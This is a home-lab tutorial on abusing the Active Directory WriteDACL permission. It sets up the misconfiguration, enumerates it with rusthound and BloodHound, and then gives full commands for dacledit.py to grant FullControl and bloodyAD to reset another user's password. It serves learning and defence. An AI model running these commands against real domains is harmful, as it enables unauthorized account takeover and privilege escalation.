

# 🔐 WriteDACL

**WriteDACL** is a specific permission in Active Directory (AD) that allows a user or group to modify the **Discretionary Access Control List (DACL)** of an AD object. The DACL defines who has access to the object and what permissions they have (e.g., read, write, full control). A WriteDACL misconfiguration occurs when an unintended user or group is granted the WriteDACL permission on an AD object, enabling them to alter its security settings and potentially escalate privileges.

---

####  Legitimate Use

WriteDACL is typically assigned to administrators or specific service accounts for managing permissions. For example, an admin might need WriteDACL to update group membership permissions.

---

####  Scenario

Let’s suppose we have the credentials of user **jack**:

- **Username**: `jack`
- **Password**: `complex1@`

And `jack` has a **WriteDACL** on another user: **Haseeb**.


##  Setting Up a Misconfiguration

Create a user **Haseeb**.

Right-click and go to:  
**Properties → Security**

---

###  Add User

Click on **Add**:



Here, add user **jack** and click **OK**:


---

###  Modify Permissions

Now go to the **Advanced** option of user **Haseeb** and edit permissions for user **jack**:


Check the box for **Modify permissions**:


##  Enumeration from BloodHound

#### Data Collection using rust hound

```
rusthound --domain furious.local -u jack -p complex1@ --output .
```
---

Now, when we enumerate it using **BloodHound**, we can see that **jack** has **WriteDacl** permission on **Haseeb**.


##  Exploiting Target User

To exploit this misconfiguration, we use two utilities:

1. **dacledit** – to grant `jack` full control over the user `Haseeb`.
2. **BloodyAD** – to change the password of user `Haseeb`, since we now have full access.

---

###  Step 1: Grant Full Control Using dacledit

```bash
┌──(kali㉿kali)-[~/Home-lab/dacl-abuse/write-dacl]
└─$ dacledit.py -action 'write' -rights 'FullControl' -principal 'jack' -target 'haseeb' 'furious.local/jack':'complex1@'       
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] DACL backed up to dacledit-20250509-002857.bak
[*] DACL modified successfully!
````

---

###  Step 2: Change Password Using BloodyAD

```bash
┌──(kali㉿kali)-[~/Home-lab/dacl-abuse/write-dacl]
└─$ bloodyAD --host "192.168.129.140" -d "furious.local" -u "jack" -p "complex1@" set password "haseeb" "Password123"
[+] Password changed successfully!                                                                     
```


